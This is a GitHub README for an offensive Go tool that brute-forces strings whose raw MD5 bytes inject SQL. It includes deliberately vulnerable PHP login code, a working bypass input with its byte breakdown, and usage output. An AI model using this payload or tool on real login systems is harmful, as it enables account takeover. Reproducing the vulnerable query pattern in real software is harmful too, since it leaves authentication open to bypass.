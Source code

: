 # hasherbasher

![Logo](https://images.propstore.com/90514.jpg)

This is a tool used to help exploit poorly designed authentication systems by locating ASCII strings that when MD5 hashed, result in raw bytes that could change SQL logic.

## How It Works

When constructing SQL queries for authentication, if a prepared statement is not used - a user can perform a SQL injection attack. For example:

```php
$query = "SELECT * FROM users WHERE email = '$_POST["email"]'"
```

This becomes complicated though when user input is hashed, such as in the case of a password:

```php
$email = mysql_real_escape_string($_POST["email"]);
$pass = md5($_POST["pass"], true);
$query = "SELECT * FROM users WHERE email = '$email' AND password_hash = '$pass'";
```

Here, the `$email` field is sanitized and prevents injection. But while the `$pass` value is not directly editable by the user, two fatal flaws exist:

1. The `md5()` function is using the parameter `raw_output = true`. This results in `$pass` being raw bytes instead of a string containing a hex encoded representation of the hash.
2. The query still is not using prepared statements for that parameter.

This results in the raw bytes of the `MD5(pass)` to be interpolated into the string, leaving PHP to determine encoding conversion.

HasherBasher attacks this directly. It attempts to brute force strings who's `MD5()` raw result would encode to a string that would include a SQL injection to bypass authentication used by the query above.

For example:

Given the string, `DyrhGOYP0vxI2DtH8y`, you could calculate an MD5 hash of `6c0e97fda5c225276f522735b381a25b`. But when used with `raw_output = true`, that looks like this:

```
[108 14 151 253 165 194 37 39 111 82 39 53 179 129 162 91]
```

In the middle of those bytes are the following:

```
39 111 82 39 53
'   o  R  '  5
```

So when you submit `$_POST['pass']` with the value of `DyrhGOYP0vxI2DtH8y`, the query above ends up with the following logic:

```sql
SELECT * FROM users WHERE email = '$email' AND password_hash = '...' OR '5'
```

Which evaluates to `true` for the where condition, so as long as an `email` of a valid user, you can login as that user.

## Features

**Incredibly fast.** Hasherbasher is generally able to brute around 5-10 million hashes per second on standard laptops. It's speed comes from three primary sources:

1. Golang's optimized compiler and crypto library
2. Parallelism via a worker pool and goroutines
3. Matching has been implemented as a finite state machine

So instead of incurring the overhead of regular expressions, it's able to locate matches orders of magnitude faster.

Effectively, the matching pattern used is:

```regex
\A.*?'(\|\||or|Or|OR|oR)'[1-9]+?.*\z
```

## Usage

```
$ go get github.com/gen0cide/hasherbasher
$ hasherbasher bruteforce

 ██░ ██  ▄▄▄        ██████  ██░ ██ ▓█████  ██▀███
▓██░ ██▒▒████▄    ▒██    ▒ ▓██░ ██▒▓█   ▀ ▓██ ▒ ██▒
▒██▀▀██░▒██  ▀█▄  ░ ▓██▄   ▒██▀▀██░▒███   ▓██ ░▄█ ▒
░▓█ ░██ ░██▄▄▄▄██   ▒   ██▒░▓█ ░██ ▒▓█  ▄ ▒██▀▀█▄
░▓█▒░██▓ ▓█   ▓██▒▒██████▒▒░▓█▒░██▓░▒████▒░██▓ ▒██▒
 ▒ ░░▒░▒ ▒▒   ▓▒█░▒ ▒▓▒ ▒ ░ ▒ ░░▒░▒░░ ▒░ ░░ ▒▓ ░▒▓░
 ▒ ░▒░ ░  ▒   ▒▒ ░░ ░▒  ░ ░ ▒ ░▒░ ░ ░ ░  ░  ░▒ ░ ▒░
 ░  ░░ ░  ░   ▒   ░  ░  ░   ░  ░░ ░   ░     ░░   ░
 ░  ░  ░      ░  ░      ░   ░  ░  ░   ░  ░   ░
 ▄▄▄▄    ▄▄▄        ██████  ██░ ██ ▓█████  ██▀███
▓█████▄ ▒████▄    ▒██    ▒ ▓██░ ██▒▓█   ▀ ▓██ ▒ ██▒
▒██▒ ▄██▒██  ▀█▄  ░ ▓██▄   ▒██▀▀██░▒███   ▓██ ░▄█ ▒
▒██░█▀  ░██▄▄▄▄██   ▒   ██▒░▓█ ░██ ▒▓█  ▄ ▒██▀▀█▄
░▓█  ▀█▓ ▓█   ▓██▒▒██████▒▒░▓█▒░██▓░▒████▒░██▓ ▒██▒
░▒▓███▀▒ ▒▒   ▓▒█░▒ ▒▓▒ ▒ ░ ▒ ░░▒░▒░░ ▒░ ░░ ▒▓ ░▒▓░
▒░▒   ░   ▒   ▒▒ ░░ ░▒  ░ ░ ▒ ░▒░ ░ ░ ░  ░  ░▒ ░ ▒░
 ░    ░   ░   ▒   ░  ░  ░   ░  ░░ ░   ░     ░░   ░
 ░            ░  ░      ░   ░  ░  ░   ░  ░   ░
 ░

[HASHERBASHER:cli]  INFO Configuration

 Minimum Length: 12
 Maximum Length: 24
    Parallelism: 12
 Stats Interval: 5

[HASHERBASHER:cli]  INFO Beginning brute force...
[HASHERBASHER:cli]  INFO Statistics

       Start Time: 10 Feb 19 19:30 -0800
 Elapsed Duration: now
   Total Attempts: 263
       Crack Rate: 1,525,796.40 per second
       Per Worker: 127,149.70 per worker per second

[HASHERBASHER:cli]  INFO ===== Match Found =====
[HASHERBASHER:cli]  INFO Cracked In: 0.000172369 seconds
[HASHERBASHER:cli]  INFO  -- BEGIN RAW BYTES --
l���%'oR'5���[
[HASHERBASHER:cli]  INFO  -- END RAW BYTES --
[HASHERBASHER:cli]  INFO ===== Results =====

 Located String: DyrhGOYP0vxI2DtH8y
    Result Size: 16
   Result Bytes: [108 14 151 253 165 194 37 39 111 82 39 53 179 129 162 91]
     Result Hex: 6c0e97fda5c225276f522735b381a25b

```

Command line options for the `bruteforce` subcommand are as follows:

```
OPTIONS:
   --min-string-length value  Minimum length of generated input strings
   --max-string-length value  Maximum length of generated input strings
   --parallelism value        Number of parallel brute force workers
   --interval value           Interval to print statistics in seconds
```

### Defaults

- `interval` = 5 seconds
- `parallelism` = number of CPUs
- `min-string-length` = 12
- `max-string-length` = 24

## Contact

- Alex Levinson (gen0cide.threats@gmail.com)

```

```
